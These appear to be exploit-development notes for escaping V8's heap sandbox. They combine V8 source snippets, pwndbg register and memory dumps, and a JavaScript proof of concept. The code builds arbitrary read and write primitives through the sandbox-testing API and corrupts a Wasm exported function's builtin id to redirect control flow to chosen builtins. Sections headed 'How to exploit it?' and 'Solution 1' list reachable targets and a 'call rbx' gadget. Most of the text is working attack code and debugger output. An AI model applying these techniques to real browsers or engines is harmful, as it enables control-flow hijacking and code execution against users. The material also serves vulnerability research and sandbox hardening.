//   using JSEntryFunction = GeneratedCode<Address(
//       Address root_register_value, Address new_target, Address target,
//       Address receiver, intptr_t argc, Address** argv)>;
// or
//   using JSEntryFunction = GeneratedCode<Address(
//       Address root_register_value, MicrotaskQueue* microtask_queue)>;
void Generate_JSEntryVariant(MacroAssembler* masm, StackFrame::Type type,
                             Builtin entry_trampoline) {
  Label invoke, handler_entry, exit;
  Label not_outermost_js, not_outermost_js_2;
// ...

  // Invoke the function by calling through JS entry trampoline builtin and
  // pop the faked function when we return.
  __ CallBuiltin(entry_trampoline);

  // Unlink this frame from the handler chain.
  __ PopStackHandler();

                             }
// =============== asm =========================
.text:0000555556AF045A                 call    Builtins_JSEntryTrampoline
.text:0000555556AF045F                 pop     qword ptr [r13+118h]
.text:0000555556AF0466                 add     rsp, 8
```
Stacktrace:

```js
Builtins_JSToWasmWrapper
// ...
Builtins_CallFunction_ReceiverIsAny
Builtins_Call_ReceiverIsAny
Builtins_JSEntryTrampoline
```

How wasm decode function from number inside sandbox:


```js

Python>(0x209601 >> 9) << 4
0x104b0
// ===============================================
pwndbg> 
0x0000555556ae74d3 in Builtins_CallFunction_ReceiverIsAny ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────────────
 RAX  0x1
 RBX  0x0
*RCX  0x104b0
 RDX  0x58800000069 ◂— 0x4
 RDI  0x588001a72c5 ◂— 0x250000072500181e
 RSI  0x588001a7825 ◂— 0x95000004ca001902
 R8   0x1
 R9   0x588001816c9 ◂— 0x250000e6a4001971
 R10  0x7fff98000000 ◂— 0x0
 R11  0x7ffff7e18be0 (main_arena+96) —▸ 0x555557034760 ◂— 0x0
 R12  0x588001a72c5 ◂— 0x250000072500181e
 R13  0x555556fa6080 —▸ 0x555556ae6f00 (Builtins_AdaptorWithBuiltinExitFrame) ◂— mov ecx, dword ptr [rdi + 0xf]
 R14  0x58800000000 ◂— 0x40940
 R15  0x555556af03c0 (Builtins_JSEntry) ◂— push rbp
 RBP  0x7fffffffce18 —▸ 0x7fffffffce90 —▸ 0x7fffffffcff0 —▸ 0x7fffffffd060 —▸ 0x7fffffffd160 ◂— ...
 RSP  0x7fffffffcdf8 —▸ 0x555556af071c (Builtins_JSEntryTrampoline+92) ◂— mov rsp, rbp
*RIP  0x555556ae74d3 (Builtins_CallFunction_ReceiverIsAny+275) ◂— mov rcx, qword ptr [r10 + rcx]
───────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────────────────
   0x555556ae7455 <Builtins_CallFunction_ReceiverIsAny+149>    jle    Builtins_CallFunction_ReceiverIsAny+259                <Builtins_CallFunction_ReceiverIsAny+259>
    ↓
   0x555556ae74c3 <Builtins_CallFunction_ReceiverIsAny+259>    mov    r10, qword ptr [r13 + 0x2510]
   0x555556ae74ca <Builtins_CallFunction_ReceiverIsAny+266>    mov    ecx, dword ptr [rdi + 0xb]
   0x555556ae74cd <Builtins_CallFunction_ReceiverIsAny+269>    shr    ecx, 9
   0x555556ae74d0 <Builtins_CallFunction_ReceiverIsAny+272>    shl    ecx, 4
 ► 0x555556ae74d3 <Builtins_CallFunction_ReceiverIsAny+275>    mov    rcx, qword ptr [r10 + rcx]
   0x555556ae74d7 <Builtins_CallFunction_ReceiverIsAny+279>    jmp    rcx
/// ========================================================================

DebugPrint: 0xb82002dcab9: [Function] in OldSpace
 - map: 0x0b8200292335 <Map[28](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x0b8200281dc9 <JSFunction (sfi = 0xb82001474b1)>
 - elements: 0x0b8200000725 <FixedArray[0]> [HOLEY_ELEMENTS]
 - function prototype: <no-prototype-slot>
 - shared_info: 0x0b82002dca89 <SharedFunctionInfo js-to-wasm:l:l>
 - name: 0x0b8200002809 <String[1]: #1>
 - builtin: JSToWasmWrapper
 - formal_parameter_count: 1
 - kind: NormalFunction
 - context: 0x0b8200281729 <NativeContext[295]>
 - code: 0x0b8200265611 <Code BUILTIN JSToWasmWrapper>
 - Wasm instance data: 0x3fcc000c48e5 <Other heap object (WASM_TRUSTED_INSTANCE_DATA_TYPE)>
 - Wasm function index: 1
 - properties: 0x0b8200000725 <FixedArray[0]>
 - All own properties (excluding elements): {
    0xb8200000d99: [String] in ReadOnlySpace: #length: 0x0b8200271695 <AccessorInfo name= 0x0b8200000d99 <String[6]: #length>, data= 0x0b8200000069 <undefined>> (const accessor descriptor, attrs: [__C]), location: descriptor
    0xb8200000dc5: [String] in ReadOnlySpace: #name: 0x0b820027167d <AccessorInfo name= 0x0b8200000dc5 <String[4]: #name>, data= 0x0b8200000069 <undefined>> (const accessor descriptor, attrs: [__C]), location: descriptor
    0xb820000420d: [String] in ReadOnlySpace: #arguments: 0x0b820027164d <AccessorInfo name= 0x0b820000420d <String[9]: #arguments>, data= 0x0b8200000069 <undefined>> (const accessor descriptor, attrs: [___]), location: descriptor
    0xb820000448d: [String] in ReadOnlySpace: #caller: 0x0b8200271665 <AccessorInfo name= 0x0b820000448d <String[6]: #caller>, data= 0x0b8200000069 <undefined>> (const accessor descriptor, attrs: [___]), location: descriptor
 }
 - feedback vector: feedback metadata is not available in SFI
0xb8200292335: [Map] in OldSpace
 - map: 0x0b82002816d9 <MetaMap (0x0b8200281729 <NativeContext[295]>)>
 - type: JS_FUNCTION_TYPE
 - instance size: 28
 - inobject properties: 0
 - unused property fields: 0
 - elements kind: HOLEY_ELEMENTS
 - enum length: invalid
 - stable_map
 - callable
 - back pointer: 0x0b8200000069 <undefined>
 - prototype_validity cell: 0x0b8200000a89 <Cell value= 1>
 - instance descriptors (own) #4: 0x0b820029235d <DescriptorArray[4]>
 - prototype: 0x0b8200281dc9 <JSFunction (sfi = 0xb82001474b1)>
 - constructor: 0x0b8200281e6d <JSFunction Function (sfi = 0xb820027692d)>
 - dependent code: 0x0b8200000735 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0;
/// =============================================

0x1a4b001dca81 <JSFunction js-to-wasm:l:l (sfi = 0x1a4b001dca51)>
pwndbg> x/20wx 0x2acd001dca81-1
0x2acd001dca80:	0x00192335	0x00000725	0x00000725	0x002bf801
0x2acd001dca90:	0x001dca51	0x00181729	0x001400a9	0x001816d9
0x2acd001dcaa0:	0x30060307	0x0d000421	0x0a400fff	0x00000085
0x2acd001dcab0:	0x00182139	0x00200025	0x00000735	0x00000a89
0x2acd001dcac0:	0x00000000	0x001816d9	0x30060307	0x2d000421

 RDI  0x2acd0018f19d ◂— 0x250000072500181f
 *RDI  0x2acd001dca81 ◂— 0x2500000725001923
```

### Jump function decoder

```js
// r --expose-gc --allow-natives-syntax --sandbox-testing    --experimental-wasm-memory64 ../../../tests/t10.js

d8.file.execute('/home/vult/Desktop/v8/v8/test/mjsunit/wasm/wasm-module-builder.js');
let sandboxMemory = new DataView(new Sandbox.MemoryView(0, 0x100000000));

function addrOf(obj) {
    return Sandbox.getAddressOf(obj);
  }
  
  function v8_read64(addr) {
    return sandboxMemory.getBigUint64(Number(addr), true);
  }
  
  function v8_write64(addr, val) {
    return sandboxMemory.setBigInt64(Number(addr), val, true);
  }
  function v8_read32(addr) {
    // return sandboxMemory.getBigUint32(Number(addr), true);
    return BigInt(sandboxMemory.getUint32(Number(addr), true));
    }

function v8_write32(addr, val) {
// return sandboxMemory.setBigInt32(Number(addr), val, true);
return sandboxMemory.setUint32(Number(addr), val, true);
}

console.log("[*] Leak sandbox base address");
// ================= reading heap_base =============================
let heap_addr = BigInt(Sandbox.base);
console.log("heap_addr: 0x" + heap_addr.toString(16));
let target_page = BigInt(Sandbox.targetPage);
console.log("target_page: 0x" + target_page.toString(16));
// ================================================================

const builder = new WasmModuleBuilder();
builder.exportMemoryAs("mem0", 0);
const GB = 1024 * 1024 * 1024;
let $mem0 = builder.addMemory64(1 * GB / kPageSize);

let $box = builder.addStruct([makeField(kWasmFuncRef, true)]);

let $sig_i_l = builder.addType(kSig_i_l); //let kSig_i_l = makeSig([kWasmI64], [kWasmI32]);
// let $Sig_i_iii = builder.addType(kSig_i_iii);

builder.addFunction("func0", kSig_v_l).exportFunc().addBody([ // func 0 receive a int32 and write to that address??
//let kSig_v_i = makeSig([kWasmI32], []);
  kExprLocalGet, 0,
  ...wasmI32Const(0x41414141),
  kExprI32StoreMem, 0, 0, // i32.store offset = -1
]);
builder.addFunction("func1", builder.addType(kSig_l_l)).exportFunc().addBody([ // function 1 convert from int32 to int64
  kExprLocalGet, 0,
//   kExprI32ConvertI64,
  kExprI64Const, 0x81, 0x80, 0x80, 0x80, 0x10,
  kExprI64Mul,
]);


let instance = builder.instantiate();

instance.exports.func1(0n);

%DebugPrint(instance.exports.func1);
// ===============================
// 0x2a7ada
// %SystemBreak();
let id_builtins_function = Number(v8_read32(addrOf(instance.exports.func1)+0xb+1));
console.log("0x" + id_builtins_function.toString(16));
v8_write32(BigInt(addrOf(instance.exports.func1)+0xb+1), id_builtins_function - 0x200);
console.log("0x" + v8_read32(addrOf(instance.exports.func1)+0xb+1).toString(16));


// trigger
instance.exports.func1(0x4141n);
// ================================

```
Explaining:
```js
v8_write32(BigInt(addrOf(instance.exports.func1)+0xb+1), id_builtins_function - 0x200);
/// 
 RAX  0x2
 RBX  0x0
*RCX  0x2bf601
 RDX  0x328e00000069 ◂— 0x4
 RDI  0x328e001dccfd ◂— 0x2500000725001923
 RSI  0x328e00181729 ◂— 0x450000024e001817
 R8   0x328e00199cd9 ◂— 0x3d0000001a001902
 R9   0xfffffffffffffff7
 R10  0x7fff98000000 ◂— 0x0
*R11  0xd2
 R12  0x209300000629 ◂— 0x8c00400200000009 /* '\t' */
 R13  0x555556fa6080 —▸ 0x555556ae6f00 (Builtins_AdaptorWithBuiltinExitFrame) ◂— mov ecx, dword ptr [rdi + 0xf]
 R14  0x328e00000000 ◂— 0x40940
 R15  0x4f5
 RBP  0x7fffffffd620 —▸ 0x7fffffffd648 —▸ 0x7fffffffd6c0 —▸ 0x7fffffffd820 —▸ 0x7fffffffd890 ◂— ...
 RSP  0x7fffffffd590 —▸ 0x555556af2ca7 (Builtins_InterpreterEntryTrampoline+295) ◂— mov r12, qword ptr [rbp - 0x20]
 RIP  0x555556ae74cd (Builtins_CallFunction_ReceiverIsAny+269) ◂— shr ecx, 9
───────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────────────────
   0x555556ae74c3 <Builtins_CallFunction_ReceiverIsAny+259>    mov    r10, qword ptr [r13 + 0x2510]
   0x555556ae74ca <Builtins_CallFunction_ReceiverIsAny+266>    mov    ecx, dword ptr [rdi + 0xb]
 ► 0x555556ae74cd <Builtins_CallFunction_ReceiverIsAny+269>    shr    ecx, 9
   0x555556ae74d0 <Builtins_CallFunction_ReceiverIsAny+272>    shl    ecx, 4
   0x555556ae74d3 <Builtins_CallFunction_ReceiverIsAny+275>    mov    rcx, qword ptr [r10 + rcx]
   0x555556ae74d7 <Builtins_CallFunction_ReceiverIsAny+279>    jmp    rcx

// =========================
0x328e001dccfd <JSFunction js-to-wasm:l:l (sfi = 0x328e001dcccd)>
pwndbg> x/20wx 0x328e001dccfd-1
0x328e001dccfc:	0x00192335	0x00000725	0x00000725	0x002bf601
0x328e001dcd0c:	0x001dcccd	0x00181729	0x001400a9	0x001816d9
// ===============================
pwndbg> tele 0x7fff98000000+0x15fc0
00:0000│  0x7fff98015fc0 —▸ 0x555556c5fcc0 (Builtins_JSToWasmWrapper) ◂— push rbp
01:0008│  0x7fff98015fc8 —▸ 0x328e0003c1b8 ◂— 0x2bf80100000d61 /* 'a\r' */
02:0010│  0x7fff98015fd0 —▸ 0x555556c60b80 (Builtins_WasmPromisingWithSuspender) ◂— push rbp
03:0018│  0x7fff98015fd8 —▸ 0x328e0003c1f4 ◂— 0x2bfa0100000d61 /* 'a\r' */
04:0020│  0x7fff98015fe0 —▸ 0x555556c61a00 (Builtins_WasmPromising) ◂— push rbp
05:0028│  0x7fff98015fe8 —▸ 0x328e0003c230 ◂— 0x2bfc0100000d61 /* 'a\r' */
06:0030│  0x7fff98015ff0 ◂— 0xff555556c62840
07:0038│  0x7fff98015ff8 —▸ 0x328e0003c26c ◂— 0x2bfe0100000d61 /* 'a\r' */

```
`rdi` is wasm exported function `func1`
`$rdi+0xb` is a id decoder function ->  `Builtins_JSToWasmWrapper`
if we changes this value, we can point rcx to whatever functions...

**How to exploit it?**
Bruteforce
State before `jump rcx`
```go
pwndbg> 
0x0000555556ae74d7 in Builtins_CallFunction_ReceiverIsAny ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────────────
 RAX  0x2
 RBX  0x0
*RCX  0x555556c5f080 (Builtins_JSToJSWrapper) ◂— push rbp
 RDX  0x328e00000069 ◂— 0x4
 RDI  0x328e001dccfd ◂— 0x2500000725001923
 RSI  0x328e00181729 ◂— 0x450000024e001817
 R8   0x328e00199cd9 ◂— 0x3d0000001a001902
 R9   0xfffffffffffffff7
 R10  0x7fff98000000 ◂— 0x0
 R11  0xd2
 R12  0x209300000629 ◂— 0x8c00400200000009 /* '\t' */
 R13  0x555556fa6080 —▸ 0x555556ae6f00 (Builtins_AdaptorWithBuiltinExitFrame) ◂— mov ecx, dword ptr [rdi + 0xf]
 R14  0x328e00000000 ◂— 0x40940
 R15  0x4f5
 RBP  0x7fffffffd620 —▸ 0x7fffffffd648 —▸ 0x7fffffffd6c0 —▸ 0x7fffffffd820 —▸ 0x7fffffffd890 ◂— ...
 RSP  0x7fffffffd590 —▸ 0x555556af2ca7 (Builtins_InterpreterEntryTrampoline+295) ◂— mov r12, qword ptr [rbp - 0x20]
*RIP  0x555556ae74d7 (Builtins_CallFunction_ReceiverIsAny+279) ◂— jmp rcx
───────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────────────────
   0x555556ae74cd <Builtins_CallFunction_ReceiverIsAny+269>    shr    ecx, 9
   0x555556ae74d0 <Builtins_CallFunction_ReceiverIsAny+272>    shl    ecx, 4
   0x555556ae74d3 <Builtins_CallFunction_ReceiverIsAny+275>    mov    rcx, qword ptr [r10 + rcx]
 ► 0x555556ae74d7 <Builtins_CallFunction_ReceiverIsAny+279>    jmp    rcx   
```

**Solution 1**
```js
// =============== jump to Builtins_JSToJSWrapper ====================
// RDI  0x3e3a001dccfd ◂— 0x2500000725001923
// RSI  0x3e3a00181729 ◂— 0x450000024e001817
// R8   0x3e3a001dcccd ◂— 0xfe0040640000000d /* '\r' */
// 0x3e3a001dccfd <JSFunction js-to-wasm:l:l (sfi = 0x3e3a001dcccd)>
// .text:0000555556C5F09F                 mov     r11d, [r8+3]
v8_write32(addrOf(instance.exports.func1)+1-0x30+3, 0); // .text:0000555556C5F0A3                 test    r11d, r11d
v8_write32(addrOf(instance.exports.func1)+1-0x30+7, 0x2f0000); // .text:0000555556C5F0A8                 mov     r8d, [r8+7]

v8_write32(0x2f0000+0x13, 0x500-7)
// 0x1984f1
// ==================================================================
```
Some functions we can jump:
```js
pwndbg> tele 0x7fff98000000+0x15000
00:0000│  0x7fff98015000 —▸ 0x555556bfc700 (Builtins_MathLog) ◂— push rbp
01:0008│  0x7fff98015008 —▸ 0x30a4000386a8 ◂— 0x2a000100000d61 /* 'a\r' */
02:0010│  0x7fff98015010 —▸ 0x555556bfc840 (Builtins_MathLog1p) ◂— push rbp
03:0018│  0x7fff98015018 —▸ 0x30a4000386e4 ◂— 0x2a020100000d61 /* 'a\r' */
04:0020│  0x7fff98015020 —▸ 0x555556bfc980 (Builtins_MathLog10) ◂— push rbp
05:0028│  0x7fff98015028 —▸ 0x30a400038720 ◂— 0x2a040100000d61 /* 'a\r' */
06:0030│  0x7fff98015030 —▸ 0x555556bfcac0 (Builtins_MathLog2) ◂— push rbp
07:0038│  0x7fff98015038 —▸ 0x30a40003875c ◂— 0x2a060100000d61 /* 'a\r' */
pwndbg> 
08:0040│  0x7fff98015040 —▸ 0x555556bfcc00 (Builtins_MathSin) ◂— push rbp
09:0048│  0x7fff98015048 —▸ 0x30a400038798 ◂— 0x2a080100000d61 /* 'a\r' */
0a:0050│  0x7fff98015050 —▸ 0x555556bfcd40 (Builtins_MathSign) ◂— push rbp
0b:0058│  0x7fff98015058 —▸ 0x30a4000387d4 ◂— 0x2a0a0100000d61 /* 'a\r' */
0c:0060│  0x7fff98015060 —▸ 0x555556bfce00 (Builtins_MathSinh) ◂— push rbp
0d:0068│  0x7fff98015068 —▸ 0x30a400038810 ◂— 0x2a0c0100000d61 /* 'a\r' */
0e:0070│  0x7fff98015070 —▸ 0x555556bfcf40 (Builtins_MathSqrt) ◂— push rbp
0f:0078│  0x7fff98015078 —▸ 0x30a40003884c ◂— 0x2a0e0100000d61 /* 'a\r' */
pwndbg> 
10:0080│  0x7fff98015080 —▸ 0x555556bfd080 (Builtins_MathTan) ◂— push rbp
11:0088│  0x7fff98015088 —▸ 0x30a400038888 ◂— 0x2a100100000d61 /* 'a\r' */
12:0090│  0x7fff98015090 —▸ 0x555556bfd1c0 (Builtins_MathTanh) ◂— push rbp
13:0098│  0x7fff98015098 —▸ 0x30a4000388c4 ◂— 0x2a120100000d61 /* 'a\r' */
14:00a0│  0x7fff980150a0 —▸ 0x555556bfd300 (Builtins_MathHypot) ◂— push rbp
15:00a8│  0x7fff980150a8 —▸ 0x30a400038900 ◂— 0x2a140100000d61 /* 'a\r' */
16:00b0│  0x7fff980150b0 —▸ 0x555556bfdd40 (Builtins_MathRandom) ◂— push rbp
17:00b8│  0x7fff980150b8 —▸ 0x30a40003893c ◂— 0x2a160100000d61 /* 'a\r' */
pwndbg> 
18:00c0│  0x7fff980150c0 —▸ 0x555556bfde80 (Builtins_NumberPrototypeToString) ◂— push rbp
19:00c8│  0x7fff980150c8 —▸ 0x30a400038978 ◂— 0x2a180100000d61 /* 'a\r' */
1a:00d0│  0x7fff980150d0 —▸ 0x555556bfe900 (Builtins_NumberIsFinite) ◂— push rbp
1b:00d8│  0x7fff980150d8 —▸ 0x30a4000389b4 ◂— 0x2a1a0100000d61 /* 'a\r' */
1c:00e0│  0x7fff980150e0 —▸ 0x555556bfe9c0 (Builtins_NumberIsInteger) ◂— push rbp
1d:00e8│  0x7fff980150e8 —▸ 0x30a4000389f0 ◂— 0x2a1c0100000d61 /* 'a\r' */
1e:00f0│  0x7fff980150f0 —▸ 0x555556bfeb40 (Builtins_NumberIsNaN) ◂— push rbp
1f:00f8│  0x7fff980150f8 —▸ 0x30a400038a2c ◂— 0x2a1e0100000d61 /* 'a\r' */
pwndbg> 
20:0100│  0x7fff98015100 —▸ 0x555556bfebc0 (Builtins_NumberIsSafeInteger) ◂— push rbp
21:0108│  0x7fff98015108 —▸ 0x30a400038a68 ◂— 0x2a200100000d61 /* 'a\r' */
22:0110│  0x7fff98015110 —▸ 0x555556bfed40 (Builtins_NumberPrototypeValueOf) ◂— push rbp
23:0118│  0x7fff98015118 —▸ 0x30a400038aa4 ◂— 0x2a220100000d61 /* 'a\r' */
24:0120│  0x7fff98015120 —▸ 0x555556bfee40 (Builtins_NumberParseFloat) ◂— push rbp
25:0128│  0x7fff98015128 —▸ 0x30a400038ae0 ◂— 0x2a240100000d61 /* 'a\r' */
//==============================


Builtins_MathLog
```


```js
// Builtins_WasmCEntry
v8_write32(BigInt(addrOf(instance.exports.func1)+0xb+1), id_builtins_function - (0x15fc-0x12d4)*0x200);

/// asm 
.text:0000555556B924FD loc_555556B924FD:                       ; CODE XREF: Builtins_WasmCEntry+3D↑j
.text:0000555556B924FD                 mov     rdi, rax
.text:0000555556B92500                 mov     rsi, r15
.text:0000555556B92503                 lea     rdx, [r13-80h]
.text:0000555556B92507                 call    rbx
```